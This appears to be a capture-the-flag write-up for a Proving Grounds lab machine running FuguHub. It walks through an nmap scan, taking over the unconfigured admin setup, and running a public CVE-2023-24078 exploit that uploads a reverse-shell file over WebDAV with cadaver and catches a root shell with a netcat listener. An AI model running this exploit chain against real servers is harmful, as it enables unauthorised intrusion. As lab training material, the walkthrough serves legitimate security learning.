 # **HUB | PG Practice**

***
## Part 4 of Mid Year CTF machines

## Released on: **Jun 16, 2023**

## Walkthrough: **Yes**
***


Running our nmap scan we have the following open ports


```bash
# Nmap 7.94SVN scan initiated Wed Feb 28 06:33:33 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.227.25
Warning: 192.168.227.25 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.227.25
Host is up (0.14s latency).
Not shown: 65456 closed tcp ports (conn-refused), 75 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: 403 Forbidden
8082/tcp open  http     Barracuda Embedded Web Server
|_http-server-header: BarracudaServer.com (Posix)
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Wed, 28 Feb 2024 05:35:21 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
|_http-title: Home
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Wed, 28 Feb 2024 05:35:22 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-server-header: BarracudaServer.com (Posix)
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Issuer: commonName=Real Time Logic Root CA/organizationName=Real Time Logic LLC/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-07-16T19:15:09
| Not valid after:  2074-04-18T19:15:09
| MD5:   6320:2067:19be:be32:18ce:3a61:e872:cc3f
|_SHA-1: 503c:a62d:8a8c:f8c1:6555:ec50:77d1:73cc:0865:ec62
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 28 06:35:28 2024 -- 1 IP address (1 host up) scanned in 115.13 seconds
```




Navigating to [http://192.168.227.25/](http://192.168.227.25/) we have a **"403 Forbidden"** message from a web server known as nginx


![](https://i.imgur.com/Nkq6YCA.png)

Whereas checking [http://192.168.227.25:8082/](http://192.168.227.25:8082/) we are asked to set an administrator password first (Baaaddd Security!! :{)

![](https://i.imgur.com/XU9QKCX.png)


Successfully set up the administrator password and username

![](https://i.imgur.com/Cd648Mf.png)


Navigating to the about section of this page i found a version disclosure



![](https://i.imgur.com/dMd7u9s.png)


searching for an exploit, I found [this](https://github.com/overgrowncarrot1/CVE-2023-24078) Authenticated Remote Code Execution vulnerability 


![](https://i.imgur.com/P3YwsS9.png)


However running this exploit gave us this error, Looks like it is trying to create and admin user but can't because we have already done that, we can go ahead and revert the box then try again


![](https://i.imgur.com/weVhqzj.png)


Running the exploit we get another browser pop-up, make sure to leave it open, according to the instructions the exploit has created a `lua.lsp` file for us locally that contains our reverse shell, let go ahead and do this


```bash
python3 CVE-2023-24078.py -p 4444 -l 192.168.45.209 -r 192.168.227.25 -P 8082
```


![](https://i.imgur.com/M4AiPru.png)


First of all on the new popped-up browser you should see a link make sure to copy the link has this is the location we are uploading our reverse shell to


![](https://i.imgur.com/3VTOOg5.png)


Now run `cadaver` in which folder the `lua.lsp` file was created in and upload the file to the web application

```bash
cd CVE-2023-24078
cadaver http://192.168.227.25:8082/fs/d0ffb9d2dccff24883a23236/
cd ..

# Username: adm1n
# Password: *********

put lua.lsp
```


![](https://i.imgur.com/02H14CG.png)



Start up your listener with netcat then navigate back to the major exploit page and hit the "**Enter**" key on your keyboard and you should have your shell back


```
nc -lvnp 4444
```



![](https://i.imgur.com/gZomFTx.png)



Then we have our reverse shell back as root

![](https://i.imgur.com/9kt0fhQ.png)

GG

